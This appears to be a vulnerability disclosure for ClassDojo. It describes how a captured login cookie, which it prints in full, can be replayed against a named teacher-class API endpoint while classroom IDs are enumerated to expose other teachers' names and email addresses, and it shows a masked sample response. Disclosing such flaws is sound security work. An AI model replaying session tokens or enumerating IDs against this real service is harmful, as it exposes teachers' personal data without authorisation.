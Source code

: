 # About ClassDojo Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie: dojo_log_session_id=33ecbc0c-4aa9-439c-9f5c-77c1b5846ba2; dojo_pubnub_clientId=dojo-1224561867; dojorrt=1712144706368; dojo_login.sid=s%3AquM_IFfzHAaMateL3kMz4CVz8cZo4L34.Ww%2FYXeopBBc3m%2FPsTtNJMx7MEhBBGsrt4w3sryGiRa0; dojo_teach_login.sid=s:quM_IFfzHAaMateL3kMz4CVz8cZo4L34.Ww/YXeopBBc3m/PsTtNJMx7MEhBBGsrt4w3sryGiRa0
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: Other teachers'information in the same online classroom.

> Request method: GET, information can be obtained by traversing the constructed classroom id,such as "65b776c41713fb420257f7d9","660d3fd0779b4c535eaddfc2
"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params |
|---------|---|-----------|
|Liu jias|https://teach.classdojo.com/api/dojoClass/65b776c41713fb420257f7d9?withRequestedCollaborators=true|_id=65b776c41713fb420257f7d9|



### Leaked packet cases 
``` 
"collaborators": [
        {
            "_id": "*******914ed7103db4af1468",
            "emailAddress": "example@email.com",
            "title": "先生",
            "firstName": "*******",
            "lastName": "***",
            "sharingStatus": "owner",
            "_links": {
                "photo": {
                    "href": "https://pstatic.classdojo.com/img/dojo_bootstrap/teacher-avatars/big/5.png"
                }
            }
        },
        {
            "_id": "*******da9fa282b5fde24fb",
            "emailAddress": " example@email.com ",
            "title": "先生",
            "firstName": "*****",
            "lastName": "****",
            "sharingStatus": "accepted",
            "isMe": true,
            "_links": {
                "photo": {
                    "href": "https://pstatic.classdojo.com/img/dojo_bootstrap/teacher-avatars/big/5.png"
                }
            }
        }
    ],
```